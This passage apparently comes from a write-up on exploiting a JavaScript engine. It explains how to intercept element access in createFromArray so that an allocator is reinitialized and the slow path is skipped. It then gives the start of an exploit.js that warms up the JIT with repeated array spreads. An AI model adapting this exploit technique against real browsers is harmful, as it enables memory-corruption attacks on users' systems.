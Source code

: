 ![TryCreate](./img/tryCreate.png)

Inside `createFromArray` it will also loop through and access each element and if we can intercept the call to get and reinitialize the allocator we can prevent it from taking the slow path.

exploit.js:

``` 
function jitMe(array, reInitAllocator){
  for(let i = 0; i < 0x4000; i++){
    let x = 1 + 1
  }
  return [...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...reInitAllocator]
}

let dummy = [1.1]
for(let i = 0; i < 80; i++){
  jitMe(dummy, dummy);
}
```